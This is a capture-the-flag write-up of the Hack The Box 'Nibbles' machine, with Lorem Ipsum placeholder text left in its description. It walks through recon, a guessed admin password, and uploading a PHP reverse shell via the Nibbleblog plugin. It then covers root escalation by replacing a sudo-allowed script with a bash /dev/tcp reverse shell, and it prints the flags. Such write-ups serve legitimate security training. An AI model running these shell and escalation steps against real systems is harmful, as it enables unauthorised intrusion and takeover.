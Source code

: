 ```yaml
---
title: Nibbles - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-22
image: images/nibbles_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/nibbles_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/nibbles]# nmap -Pn -n -sCV 10.10.10.75 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
      -

    NIKTO:
     Allowed HTTP Methods: GET, HEAD, POST, OPTIONS


2. Visiting the webpage we find '/nibbleblog/ directory. Nothing interesting here!' embedded as a comment in the code.

    DIRB:
      ---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
      + http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
      + http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:2987)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
      + http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

    * On /nibbleblog/content/private/users.xml we find that the user ADMIN exists, however no password.
    * Uploaded files are stored at: http://10.10.10.75/nibbleblog/content/public/upload/
    * Trying SQLi on /nibbleblog/admin.php blacklists us : 'Nibbleblog security error - Blacklist protection'
    * Generated a wordlist with cewl and tried is as passwords for user ADMIN, but no success

    Randomly trying admin:nibbles gave access however!


3. Browse to 'http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image', press "Configure" on the
   'My image'-plugin. Browse for a webshell, or php-reverse and upload it.

   Go to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ and press 'image.php', this will return your rev-shell.

   [root:/git/htb/nibbles]# nc -lvnp 4488                                                                                            (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45484
    Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
     10:58:49 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
      nibbler

    nibbler@Nibbles:/home/nibbler$ cat user.txt
      405046e8f3fde67cc37f19a94e643a3c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As always, start by running 'sudo -l' to see if we have an easy path to root.

    nibbler@Nibbles:/home/nibbler$ sudo -l
      Matching Defaults entries for nibbler on Nibbles:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User nibbler may run the following commands on Nibbles:
          (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


   The specifiec file and path does not exist, however we do find 'personal.zip' in our home.
    nibbler@Nibbles:/home/nibbler$ ls -al
      drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
      drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
      -r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip

   Unzip the file:
    nibbler@Nibbles:/home/nibbler$ unzip personal.zip
      unzip personal.zip
      Archive:  personal.zip
         creating: personal/
         creating: personal/stuff/
        inflating: personal/stuff/monitor.sh


2. Now we have sudo privileges to a bash-script that we can read, write and execute. We have two paths to root here:

  a) Modify the script to send a reverse shell back as root.
  b) Delete the script and create a new, with the same name (monitor.sh), to execute root commands for us (i.e. send rev shell)

  For me, I think option B is easiest.


  nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.10/4499 0>&1

  nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
  nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo /home/nibbler/personal/stuff/monitor.sh

  [root:/git/htb/nibbles]# nc -lvnp 4499                                                                                            (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45302
    bash: cannot set terminal process group (1324): Inappropriate ioctl for device
    bash: no job control in this shell

  root@Nibbles:/home/nibbler/personal/stuff# whoami
    root
  root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
    0a39fa7459fb58a9f4e22cdaeb6b52c1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Nibbleblog RCE:
  https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/
